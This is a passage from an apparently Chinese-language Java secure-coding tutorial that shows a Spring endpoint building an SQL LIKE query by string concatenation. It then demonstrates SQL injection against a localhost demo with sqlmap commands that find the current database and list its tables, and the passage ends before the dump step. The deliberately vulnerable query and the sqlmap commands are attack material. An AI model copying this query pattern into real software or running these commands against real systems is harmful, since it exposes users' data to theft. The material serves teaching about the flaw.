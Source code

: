 ```

@Autowired
private JdbcTemplate jdbcTemplate;

//用户模糊搜索接口
@PostMapping("jdbcwrong")
public void jdbcwrong(@RequestParam("name") String name) {

    //采用拼接SQL的方式把姓名参数拼到LIKE子句中
    log.info("{}", jdbcTemplate.queryForList("SELECT id,name FROM userdata WHERE name LIKE '%" + name + "%'"));

}

```

使用 sqlmap 来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test


```

一段时间后，sqlmap 给出了如下结果：

![img](assets/2f8e8530dd0f76778c45333adfad5259.png)

可以看到，这个接口的 name 参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，仅需简单的三步，就可以直接导出整个用户表的内容了。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db


```

可以得到当前数据库是 common\_mistakes：

```
current database: 'common_mistakes'


```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"


```

